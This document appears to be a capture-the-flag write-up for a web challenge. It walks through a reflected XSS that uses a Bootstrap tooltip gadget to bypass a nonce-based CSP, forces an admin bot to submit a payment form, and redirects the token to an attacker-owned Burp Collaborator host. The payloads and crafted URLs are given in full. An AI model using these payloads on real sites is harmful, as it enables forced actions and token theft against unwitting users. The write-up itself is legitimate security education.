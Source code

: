 # 🚩 Flagify-2

## Challenge
```
The same site as before. Note that this time you can send links to an admin

Site: flagify-2.challs.cyberchallenge.it

Site: payflag-2.challs.cyberchallenge.it
```

## Writeup
In this challenge there are two websites. In the first there is a dummy Ecommerce with some articles. The item we need to buy is the *Flag* but it costs 100$ dollars and we only have 5$.

![Flagify Shop](images/flagify-shop.png)

The other website (Payflag) gives us 10$ on Sign up. On this second website there is also an interesting additional Page which is *Report* that says:
> The admin will check the link you provided. It (yeah, the admin is a bot) has infinite money!. Please don't spam

with an input to write down the URL to visit. We should definitely use this to retrieve the Flag.
The easiest way to solve this challenge is using a *Proxy* to intercept and modify requests. In this writeup I am using *Burp* (but you could also use OWASP ZAP to achieve the same result).

### Payment flow analysis

Let's analyse the payment flow for a stupid item to understand what happens when we click on the "BUY WITH PAYFLAG" button.
The flow is composed of 5 requests:

![Payment flow](images/payment-flow.png)

The first two requests are made to the *Flagify* website; after the second request we get redirected to the *Payflag* website where there is an *Authorization Request* to complete the payment.

![Authorization Request](images/authorization-request.png)

After we click on the **Yes** button a **POST** request is performed and, finally, we get redirected back to the *Flagify* website on the ``/callback`` endpoint with a token. After some tests I found that the thing we need to complete a payment is the ``token`` in that last ``/callback`` endpoint. So we just need to make the **bot** perform the POST request to buy the flag and somehow retrieve the token. Let's do this.

### Looking for XSS

We cannot just send the payment link to the **bot** because it would just perform a GET request; on the other hand we need to perform a **POST** request. We can notice that the *Authorization Requests* page (screenshot above) has the following URL: 

```
http://payflag-2.challs.cyberchallenge.it/pay?token=<token>&redirect_url=http://flagify-2.challs.cyberchallenge.it/callback
```

The ``redirect_url`` parameters gets reflected in the response. Can we perform XSS?
Unfortunately the server implements a strict *Content-Security-Policy* which is **nonce-based**:

![CSP](images/csp.png)

The good news is that nothing is **unbreakable**. Looking closely at the source code we can find this snippet of code at the end of the page:

![Page Source Code](images/page-source-code.png)

When dealing with CTFs we need to have the following **mindset**: 
> Everything is there for a reason.

This function comes from Bootstrap and looking more closely we can find the following **Gist**:
- [Bootstrap XSS Collection](https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6)

The first group of payloads in this list says "CSP strict-dynamic bypass": GREAT!
Let's try one of them by changing the ``redirect_url`` with one of those payloads and BAM: the second one works!

![First XSS](images/user-interaction-xss.png)

The problem is that it requires user interaction, can we overcome this problem?
The payload I found on that **gist** is the following:

```
<x data-toggle="tooltip" data-html="true" title='<script>alert(1)</script>'>XSS</x>
```

It uses a ``<x>`` tag to perform XSS, if we change it to ``<input>`` and add the **autofocus** option we can overcome the requirement of the user interaction:

```
<input autofocus data-toggle="tooltip" data-html="true" title='<script>alert(1)</script>'/>
```

### Payload all the things!

Now everything is in place. We just need to create the right payload to make the **bot** buy the flag for us. Let's look closely at the POST request we need to perform:

![POST request](images/post-request.png)

The body of the request contains:
- **accepted**: set to "ok"
- **csrf**: value that we can find in the page itself

On the other hand the query string of the URL contains:
- **token**: we need to use a token for that specific item
- **redirect_url**: the URL to redirect

In order to retrieve this flag we need to perform an XSS that makes a POST request with:
- **accepted** set to "ok"
- **csrf** dynamically taken from the page
- **token** we provide to the *bot*

In other words we just need to submit the form! A simple payload like the following should work:
```
document.getElementsByClassName('btn')[0].click()
```

The full payload becomes:
```
<input autofocus data-toggle="tooltip" data-html="true" title='<script>document.getElementsByClassName("btn")[0].click()</script>'/>
```

Now we need to craft the url to give to the **admin bot**. Let's go to the *Flagify* website and try to buy the flag with *Payflag*; we get the following result:

![Not enough money](images/not-enough-money.png)

But we can take the URL from the address bar and forge the malicious link for the **bot** just by changing the ``redirect_url`` parameter with the previous payload; we obtain something like the following:

```
http://payflag-2.challs.cyberchallenge.it/pay?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0b2tlbiI6IjgyZjMwYzJiZmQ0ZDVkZTgyZTlkNTMyZTExM2I2MDUwIiwicHJpY2UiOjEwMH0.mEVA3PJX8ACdQ0F71rQ2wBWJ-ezdZu_XGwZtsa-HNhY&redirect_url=%3Cinput%20autofocus%20data-toggle%3D%22tooltip%22%20data-html%3D%22true%22%20title%3D%27%3Cscript%3Edocument.getElementsByClassName%28%22btn%22%29%5B0%5D.click%28%29%3C%2Fscript%3E%27%2F%3E
```

**Notice that I URL Encoded the payload to avoid problems**

Now place this URL inside the form in the Report page and click on *Submit*. The page should return an **ok** message. The **bot admin** should have correctly completed the payment. But something is missing, how do we retrieve the **token**? The easiest solution is to take advantage of the redirection after the payment. If we slightly change the ``redirect_url`` and add at the beginning a domain we own we should receive a request with the token. For this purpose I am going to use **Burp Collaborator** but you can also use something like **ngrok**. The payload should become something like this:
```
http://payflag-2.challs.cyberchallenge.it/pay?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0b2tlbiI6IjgyZjMwYzJiZmQ0ZDVkZTgyZTlkNTMyZTExM2I2MDUwIiwicHJpY2UiOjEwMH0.mEVA3PJX8ACdQ0F71rQ2wBWJ-ezdZu_XGwZtsa-HNhY&redirect_url=https://jxkm8suljj30v4wpw11l331ig9mzao.burpcollaborator.net/%3Cinput%20autofocus%20data-toggle%3D%22tooltip%22%20data-html%3D%22true%22%20title%3D%27%3Cscript%3Edocument.getElementsByClassName%28%22btn%22%29%5B0%5D.click%28%29%3C%2Fscript%3E%27%2F%3E
```

Let's use again the *Report* feature and now we should receive a request on our Burp Collaborator instance (or in the *ngrok* logs):

![Burp Collaborator Interaction](images/burp-collaborator-interaction.png)

Now we just need to take the **token** and go to:
```
http://flagify-2.challs.cyberchallenge.it/callback?token=<token>
```

... and enjoy the flag!

![Flag](images/flag.png)

**FLAG**: CCIT{web_h4s_its_gadg3ts_to0}